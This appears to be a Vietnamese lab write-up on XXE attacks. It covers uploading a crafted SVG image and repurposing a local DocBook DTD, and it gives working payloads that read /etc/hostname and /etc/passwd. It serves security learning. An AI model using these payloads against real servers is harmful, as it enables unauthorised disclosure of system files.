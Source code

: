 
## [Exploiting XXE via image file upload](https://)

- Bắt đầu bài lab, mình có thể thấy là bài này dùng upload file khác với tất cả những bài trên và không hề có 1 dấu hiệu nào liên quan đến xml
- ![image](https://hackmd.io/_uploads/SJGCSs326.png)
- ![image](https://hackmd.io/_uploads/SkjRSinna.png)
- Ta có thể nhìn thấy khi comment sẽ có 1 chức năng là upload file kèm theo
- mình sẽ bắt bằng burp
- ![image](https://hackmd.io/_uploads/BywLLi2nT.png)
- Đọc thêm trên payload all the thing mình thấy có thể chèn xml trên svg và có vẻ như trang web cho upload file này
- ![image](https://hackmd.io/_uploads/H1r1Oo2nT.png)



payload :-1: 
```
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```

- Lưu ý là phải chuyển content-type thành image/svg+xml để có thể load được tài liệu xml
- Mở ảnh ra và ta thấy 
- ![image](https://hackmd.io/_uploads/r17Wush26.png)
- Nội dung của file là :1234: `b53672a39ba7`
- Submit và solve bài lab:
- ![image](https://hackmd.io/_uploads/rJG8djnh6.png)


## [Exploiting XXE to retrieve data by repurposing a local DTD](https://)

- ![image](https://hackmd.io/_uploads/Hk5osih2T.png)

- chức năng checkStock tương tự các bài ở trên để check sản phẩm
- Như gợi ý thì ta thấy hệ thống sử dụng máy tính Gnome thường có DTD là docbookx.dtd và chứa 1 thực thể gọi là ISOamso
- ![image](https://hackmd.io/_uploads/ryk_hs2h6.png)
- Chúng ta sẽ sử dụng parameter như các bài trước để load Entity này
- Payload :-1: 

```
<!DOCTYPE message [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```
